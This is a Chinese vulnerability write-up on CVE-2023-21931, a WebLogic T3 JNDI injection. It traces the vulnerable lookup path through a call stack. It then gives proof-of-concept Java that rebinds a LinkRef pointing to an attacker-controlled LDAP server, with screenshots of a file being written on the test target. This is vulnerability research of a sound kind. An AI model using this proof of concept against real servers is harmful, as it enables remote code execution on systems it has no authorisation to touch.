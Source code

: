 

# CVE-2023-21931 Weblogic JNDI注入漏洞原理分析及漏洞利用 - 先知社区

CVE-2023-21931 Weblogic JNDI注入漏洞原理分析及漏洞利用

* * *

## 影响

Oracle WebLogic Server product of Oracle Fusion Middleware (component: Core)

*   12.2.1.3.0
    
*   12.2.1.4.0
    
*   14.1.1.0.0
    

## 原理

根据[nvd](https://nvd.nist.gov/vuln/detail/CVE-2023-21931)的描述

能够轻易的通过发送T3协议给weblogic服务造成JNDI的注入

这里的漏洞点和之前的CVE-2023-21839的成因感觉上是很像的，CVE-2023-21839主要是因为weblogic的t3 / iiop协议支持远程绑定对象bind / rebind到服务端，之后在调用`lookup`的过程中，存在有参数可控的`lookup`的调用，也即是`weblogic.deployment.jms.ForeignOpaqueReference#getReferent`中代码

[![](assets/1701612511-0be5d7f90fd7bd9badcf95e6486f15a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192339-a1ed6f98-dea4-1.png)

而对于昨天公开的CVE-2023-21931这个漏洞，同样和上一次CVE一样，是在lookup的调用过程中存在有一个可控的lookup方法调用造成了一个JNDI注入，即是通过`LinkRef#getLinkName`方法来获取ldap查询串，具体的分析见下文

## 分析

前面提到了这里主要的漏洞成因是在进行lookup查询的过程中造成的问题

动态调试一下

给个调用栈：

```plain
lookup:417, InitialContext (javax.naming)
getObjectInstance:98, WLNamingManager (weblogic.jndi.internal)
resolveObject:388, ServerNamingNode (weblogic.jndi.internal)
resolveObject:886, BasicNamingNode (weblogic.jndi.internal)
lookup:219, BasicNamingNode (weblogic.jndi.internal)
invoke:-1, RootNamingNode_WLSkel (weblogic.jndi.internal)
invoke:701, BasicServerRef (weblogic.rmi.internal)
invoke:231, ClusterableServerRef (weblogic.rmi.cluster)
run:527, BasicServerRef$1 (weblogic.rmi.internal)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
handleRequest:523, BasicServerRef (weblogic.rmi.internal)
run:118, WLSExecuteRequest (weblogic.rmi.internal.wls)
execute:311, ExecuteThread (weblogic.work)
run:263, ExecuteThread (weblogic.work)
```

从调用栈中很明显，weblogic主要是通过使用`BasicServerRef#invoke`来处理传递过来的数据

[![](assets/1701612511-8d986de5ee880bac16faf4a26540b978.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192530-e463654e-dea4-1.png)

对消息进行了一些处理之后，再次将请求传递给`RootNamingNode_WLSkel#invoke`方法继续处理

[![](assets/1701612511-8c7904cbb1b5a97849e26922bad915f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192536-e8270e6a-dea4-1.png)

开始就对var1进行不同的处理，经过`BasicServerRef#invoke`的处理，这时候的`var1`为14，我们跟进`case 14`的具体实现

[![](assets/1701612511-34829a929b1a0599f164cd9896ca236a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192542-eb641096-dea4-1.png)

对接收到的请求进行消息的提取之后继续传递到`BasicNamingNode#lookup`

[![](assets/1701612511-5ffc6be0e31305e9042e485f577449c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192548-eef08212-dea4-1.png)

此时我们通过`getRest`返回的值为空，选择调用`resolveObject`方法，并传入我们自定义的数据进行处理

[![](assets/1701612511-9b82b7f8e192fded7a392031877e4929.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192553-f25464b4-dea4-1.png)

之后就分别是`BasicNamingNode / ServerNamingNode`的`resolveObject`方法的调用

[![](assets/1701612511-a349745968a58cb5d796237d1ea2b70f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192602-f76080fa-dea4-1.png)

最后会通过利用`WLNamingManager#getObjectInstance`获取我们的对象实例

这两个CVE主要就是这里了

[![](assets/1701612511-c613eb46d4fd46854ee51cb7e39c6291.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192609-fb5a0c1c-dea4-1.png)

分别是上面两个箭头所示位置

这里主要判断这个CVE，如果我们bind的对象是一个`LinkRef`对象，将会进入else if语句中，在这其中，lookup方法的参数是通过调用`LinkRef#getLinkName`方法来进行获取的

[![](assets/1701612511-953f000d11efc72169d9525984281e5e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192616-ffffc978-dea4-1.png)

很简单的可以通过利用构造方法传入一个ldap查询连接来对linkName赋值

写一个demo证明一下

[![](assets/1701612511-7ee00540bf09b4b95584b3c12ce09172.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192631-08657c8e-dea5-1.png)

[![](assets/1701612511-a28ce6cd39e907704671b9041c6398d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192637-0c842720-dea5-1.png)

所以，目的现在就很明确了

## POC构造

我们之后进行POC的构造

对于漏洞利用的构造首先就是需要将恶意的对象也即是`LinkRef`绑定到服务端中

首先创建一个用来绑定远程对象的InitialContext

```plain
String url = "t3://192.168.153.136:7001"; // 目标机器
Hashtable env1 = new Hashtable();
env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
env1.put(Context.PROVIDER_URL, url); // 目标
InitialContext c = new InitialContext(env1);
```

之后就是将我们的恶意`LinkRef`对象绑定

```plain
LinkRef linkRef = new LinkRef("ldap://192.168.153.1:1389/5irv7b");
c.rebind("sectest", linkRef);
```

最后只需要进行`lookup`查询调用就能够进行JNDI注入攻击

验证一下

## 漏洞利用

运行JNDI注入工具

[![](assets/1701612511-4b1eb9a79303e453421fb1bc2a411656.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192732-2cdef43c-dea5-1.png)

漏洞环境中不存在2023文件

[![](assets/1701612511-9a96b7cecc29c0b6ed85fd530a7fd1f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192738-30c67886-dea5-1.png)

运行漏洞利用程序

[![](assets/1701612511-434905c6a8b5c938d476ba4c5a789ce6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192744-33fc0782-dea5-1.png)

[![](assets/1701612511-46d9f3ba01c290c0eebce9b78e81fcd1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230419192749-372dcbde-dea5-1.png)

成功写入了一个空文件

## Ref

[https://xz.aliyun.com/t/12297](https://xz.aliyun.com/t/12297)

[https://nvd.nist.gov/vuln/detail/CVE-2023-21931](https://nvd.nist.gov/vuln/detail/CVE-2023-21931)
